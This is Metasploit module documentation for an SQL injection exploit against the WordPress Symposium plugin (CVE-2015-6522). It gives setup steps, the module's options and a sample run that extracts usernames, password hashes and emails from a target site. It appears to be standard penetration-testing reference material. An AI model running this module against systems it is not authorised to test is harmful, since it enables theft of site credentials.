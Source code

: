 ## Vulnerable Application

  The auxiliary/admin/http/wp_symposium_sql_injection works for WordPress
  Symposium plugin before 15.8. The Pro module version has not been verified.

  To download the vulnerable application, you can find it here:
  https://github.com/wp-plugins/wp-symposium/archive/15.5.1.zip

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/admin/http/wp_symposium_sql_injection```
  3. Do: ```set RHOST <ip>```
  4. Set TARGETURI if necessary.
  5. Do: ```run```

## Scenarios

  Example run against WordPress Symposium plugin 15.5.1:

  ```
  msf > use auxiliary/admin/http/wp_symposium_sql_injection
  msf auxiliary(wp_symposium_sql_injection) > show info

         Name: WordPress Symposium Plugin SQL Injection
       Module: auxiliary/admin/http/wp_symposium_sql_injection
      License: Metasploit Framework License (BSD)
         Rank: Normal
    Disclosed: 2015-08-18

  Provided by:
    PizzaHatHacker
    Matteo Cantoni <goony@nothink.org>

  Basic options:
    Name        Current Setting  Required  Description
    ----        ---------------  --------  -----------
    Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                        yes       The target address
    RPORT       80               yes       The target port
    SSL         false            no        Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                yes       The base path to the wordpress application
    URI_PLUGIN  wp-symposium     yes       The WordPress Symposium Plugin URI
    VHOST                        no        HTTP server virtual host

  Description:
    SQL injection vulnerability in the WP Symposium plugin before 15.8
    for WordPress allows remote attackers to execute arbitrary SQL
    commands via the size parameter to get_album_item.php.

  References:
    http://cvedetails.com/cve/2015-6522/
    https://www.exploit-db.com/exploits/37824

  msf auxiliary(wp_symposium_sql_injection) > set RHOST 1.2.3.4
  RHOST => 1.2.3.4
  msf auxiliary(wp_symposium_sql_injection) > set TARGETURI /html/wordpress/
  TARGETURI => /html/wordpress/
  msf auxiliary(wp_symposium_sql_injection) > run

  [+] 1.2.3.4:80 - admin           $P$ByvWm3Hb653Z50DskJVdUcZZbJ03dJ. admin.foobar@mail.xyz
  [+] 1.2.3.4:80 - pippo           $P$BuTaWvLcEBPseEWONBvihacEqpHa6M/ pippo.foobar@mail.xyz
  [+] 1.2.3.4:80 - pluto           $P$BJAoieYeeCDujy7SPQL1fjDULrtVJ3/ pluto.foobar@mail.xyz
  [*] Auxiliary module execution completed
  ```
